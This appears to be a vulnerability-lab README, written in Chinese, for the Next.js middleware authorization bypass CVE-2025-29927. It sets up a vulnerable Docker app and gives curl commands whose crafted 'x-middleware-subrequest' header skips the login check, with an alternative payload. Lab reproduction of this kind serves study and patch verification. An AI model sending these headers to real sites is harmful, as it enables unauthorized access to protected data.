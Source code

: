 # Next.js 中间件鉴权绕过漏洞 (CVE-2025-29927)

Next.js 是一个基于 React 的流行 Web 应用框架，提供服务器端渲染、静态网站生成和集成路由系统等功能。当使用中间件进行身份验证和授权时，Next.js 14.2.25 和 15.2.3 之前的版本存在授权绕过漏洞。

该漏洞允许攻击者通过操作 `x-middleware-subrequest` 请求头来绕过基于中间件的安全控制，从而可能获得对受保护资源和敏感数据的未授权访问。

参考链接：

- <https://github.com/advisories/GHSA-f82v-jwr5-mffw>
- <https://zhero-web-sec.github.io/research-and-things/nextjs-and-the-corrupt-middleware>
- <https://nvd.nist.gov/vuln/detail/CVE-2025-29927>

## 环境搭建

执行以下命令启动一个基于 Next.js 15.2.2 的存在漏洞的应用：

```
docker compose up -d
```

应用启动后，访问 `http://your-ip:3000` 会被重定向到登录页面。输入默认凭据 `admin:password`，你可以登录成功并访问仪表盘。

## 漏洞复现

如果你尝试在没有合法凭据的情况下直接访问仪表盘，将会被重定向到登录页面：

```
curl -i http://your-ip:3000
```

![](1.png)

要利用此漏洞，你可以在请求中添加 `x-middleware-subrequest` 请求头，其值为`middleware:middleware:middleware:middleware:middleware`。Next.js 中间件会错误地处理此请求头并绕过身份验证检查：

```
curl -i -H "x-middleware-subrequest: middleware:middleware:middleware:middleware:middleware" http://your-ip:3000
```

![](2.png)

可见，没有传入任何身份认证信息即可成功访问到仪表盘。

> 如果上述 payload 不起作用，您也可以尝试使用请求头 `x-middleware-subrequest: src/middleware:src/middleware:src/middleware:src/middleware:src/middleware`。
